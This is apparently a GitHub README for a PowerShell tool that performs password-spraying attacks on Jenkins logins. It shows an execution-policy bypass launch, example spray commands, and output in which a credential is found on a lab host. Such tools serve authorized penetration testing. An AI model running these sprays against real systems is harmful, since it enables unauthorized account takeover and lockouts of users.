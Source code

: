 # JenkinsPasswordSpray
JenkinsPasswordSpray is a tool witten i PowerShell to perform password spraying attacks against users of a [Jenkins](https://jenkins.io/) instance. Be careful not to lock out accounts!

## Quick Start Guide
Open a PowerShell terminal from the Windows command line with `powershell.exe -exec bypass` and import the module with `Import-Module JenkinsPasswordSpray.ps1`.

The required options are `URL`, `Username`/`UsernameFile` and `Password`/`PasswordFile`.

The following command will spray against a list of users and attempt to authenticate using each username and a password from the specified list. If a valid login is found, the script will stop unless `-ContinueOnSuccess` is set to `$True`. A confirmation will be prompted unless the `-Force` switch is set. The results of the spray will be output to a file called `sprayed-jenkins.txt`

The script will also try to help you clean up your URL if it's invalid or contains trailing elements like `/login`, as this will make the URL invalid for password spraying. But because your target Jenkins instance might be located in a subdirectory, this feature asks for confirmation before trimming the URL.

Type `Get-Help Invoke-JenkinsPasswordSpra` to see the different options.

### Example command

```PowerShell
Invoke-JenkinsPasswordSpray -URL http://jenkins:8080 -UsernameFile .\users.txt -PasswordFile .\pws.txt -ContinueOnSuccesss $true -Force -Outfile .\sprayed-jenkins.txt
```

### Example command with output

```PowerShell
PS C:\Windows\temp> Invoke-JenkinsPasswordSpray -URL http://10.0.0.7:8080/login/notvalid -Username jenkinsadmin -Password rush2112 -ContinueOnSuccesss $true -Force -OutFile jenkins-sprayed.txt

[-] Detected trailing elements /login/notvalid in provided URL http://10.0.0.7:8080/login/notvalid.
[-] Will now try to remove it for you.
Do you want to use the URL http://10.0.0.7:8080 instead?
[Y] Yes  [N] No  [?] Help (default is "Y"):
[+] Replacing URL: http://10.0.0.7:8080/login/notvalid
[+] Will use this URL: http://10.0.0.7:8080
[+] Testing if URL is valid
[+] Provided URL: http://10.0.0.7:8080 returns 200 OK.

[+] Start password spraying the URL http://10.0.0.7:8080 with 1 user(s) and 1 password(s). Total request count is 1. Current time is 15:21
[+] Writing successful logins to jenkins-sprayed.txt
[Attempt 1 / 1] - Spraying username:jenkinsadmin with password:rush2112
[+] SUCCESS! Username:jenkinsadmin Password:rush2112

[+] Password spraying is complete
[*] Any passwords that were successfully sprayed have been written to jenkins-sprayed.txt
```




### Invoke-JenkinsPasswordSpray Options

```
UsernameList      - A list of usernames to spray
Username          - A single username to spray.
Password          - A single password to spray for each specified username.
PasswordList      - A list of passwords, one per line, to use for the password spray.
ContinueOnSuccess - Continue spraying, even if a valid account is found.
Force             - Forces the spray to continue without prompting for confirmation.
OutFile           - A file to output the results to.
```